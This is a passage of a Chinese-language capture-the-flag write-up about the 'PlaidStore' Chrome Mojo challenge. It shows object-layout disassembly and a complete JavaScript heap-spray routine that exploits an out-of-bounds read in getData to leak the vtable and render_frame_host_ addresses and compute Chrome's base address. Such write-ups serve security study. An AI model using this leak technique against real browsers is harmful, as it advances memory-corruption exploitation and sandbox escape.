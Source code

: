 ```
// buffer64[0] =  vtable
mov    QWORD PTR [rax],rcx
// buffer64[1] =  render_frame_host_
mov    QWORD PTR [rax+0x8],rbx
lea    rcx,[rax+0x18]
xorps  xmm0,xmm0
movups XMMWORD PTR [rax+0x18],xmm0

```

所以如果执行

```
p.storeData("aaaa",Uint8Array(0x28));
blink.mojom.PlaidStore.getRemote(true)
```

那么`Uint8Array` 的backing store 和 PlaidStore对象很有可能会连续分配，多次执行上面代码，只要两者内存连续分配的手，就可以通过`p.getData` 泄露出`vtable` 和 `render_frame_host_` 的地址，通过`vtable` 即可计算出 `chrome` 的基地址。

内存泄露的代码如下

```
function show(msg)`{`
    document.body.innerHTML+=msg+"&lt;br&gt;";
`}`
async function main()`{`
    var stores = [];
    let p = blink.mojom.PlaidStore.getRemote(true); 

    for(let i=0;i&lt;0x40;i++)`{`
        tmp=new Uint8Array(0x28);
        tmp[0]=i;
        tmp[1]=0x13;
        tmp[2]=0x37;
        tmp[3]=0x13;
        tmp[4]=0x37;
        tmp[5]=0x13;
        tmp[6]=0x37;
        tmp[7]=0x13;
        await p.storeData("yeet"+i,tmp);
        stores[i] = blink.mojom.PlaidStore.getRemote(true)
    `}`
    let chromeBase = 0;
    let renderFrameHost = 0;
    for(let i = 0;i&lt;0x40&amp;&amp;chromeBase==0;i++)`{`
        let d = (await p.getData("yeet"+i,0x200)).data;
        let u8 = new Uint8Array(d)
        let u64 = new BigInt64Array(u8.buffer);
        for(let j = 5;j&lt;u64.length;j++)`{`
            let l = u64[j]&amp;BigInt(0xf00000000000)
            let h = u64[j]&amp;BigInt(0x000000000fff)
            if((l==BigInt(0x500000000000))&amp;&amp;h==BigInt(0x7a0))`{`
                show(i.toString(16)+' '+j+' 0x'+u64[j].toString(16));

                chromeBase = u64[j]-BigInt(0x9fb67a0);
                renderFrameHost = u64[j+1];
                break;
            `}`
        `}`
    `}`
    show("ChromeBase: 0x"+chromeBase.toString(16));
    show("renderFrameHost: 0x"+renderFrameHost.toString(16));
    return 0 ;
`}`
main();
```